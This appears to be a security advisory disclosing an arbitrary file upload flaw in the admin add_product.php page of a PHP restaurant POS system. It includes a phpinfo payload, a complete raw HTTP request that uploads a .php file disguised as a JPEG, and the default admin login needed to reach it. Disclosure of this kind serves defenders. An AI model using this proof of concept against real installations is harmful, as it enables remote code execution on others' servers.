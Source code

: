 # Vulnerability Description

Arbitrary file upload vulnerability in [Restaurant POS System v1.0](https://codeastro.com/restaurant-pos-system-in-php-with-source-code/) allows attackers to execute arbitrary code via the file upload to add_product.php. It is an open source project from [https://codeastro.com](https://codeastro.com) .

1. Vulnerability Submitter: Tr0e
  
2. vendors: [Restaurant POS System in PHP with Source Code - CodeAstro](https://codeastro.com/restaurant-pos-system-in-php-with-source-code/)
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version
  
4. Vulnerability location: /RestaurantPOS/Restro/admin/add_product.php
  

# Vulnerability Verification

[+] Payload:

```php
<?php phpinfo();?>
```

POC：

```js
POST http://192.168.0.120:91/RestaurantPOS/Restro/admin/add_product.php HTTP/1.1
Host: 192.168.0.120:91
Content-Length: 826
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.120:91
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySsF9wyDdPINlRtc6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.120:91/RestaurantPOS/Restro/admin/add_product.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=ldi7mdlvm8g7bnfhunuvrhp8ne
Connection: close

------WebKitFormBoundarySsF9wyDdPINlRtc6
Content-Disposition: form-data; name="prod_name"

Test
------WebKitFormBoundarySsF9wyDdPINlRtc6
Content-Disposition: form-data; name="prod_id"

f867c0fe4f
------WebKitFormBoundarySsF9wyDdPINlRtc6
Content-Disposition: form-data; name="prod_code"

RFZN-9372
------WebKitFormBoundarySsF9wyDdPINlRtc6
Content-Disposition: form-data; name="prod_img"; filename="Tr0e.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarySsF9wyDdPINlRtc6
Content-Disposition: form-data; name="prod_price"

100
------WebKitFormBoundarySsF9wyDdPINlRtc6
Content-Disposition: form-data; name="prod_desc"

Tr0e Test
------WebKitFormBoundarySsF9wyDdPINlRtc6
Content-Disposition: form-data; name="addProduct"

Add Product
------WebKitFormBoundarySsF9wyDdPINlRtc6--
```

## How to verify

1. Build the vulnerability environment according to the steps provided by the source code author.  
2. log in to the "Admin Panel” through the default account and password（Email: [admin@mail.com](mailto:admin@mail.com) Password: codeastro.com）;  
3. The vulnerability lies in the "Products - Add New Product" function, you should inserts Payload when you add new product, as shown in the following figure：

![image](https://user-images.githubusercontent.com/42080954/194765930-53f0d7a4-975a-48a6-925e-1151b7dacd26.png)
![image](https://user-images.githubusercontent.com/42080954/194765967-712c3ece-dc12-4a3a-a4c4-b5cdd781d80b.png)
![image](https://user-images.githubusercontent.com/42080954/194766003-d6d98922-af0f-428e-9846-c11ed49931c3.png)
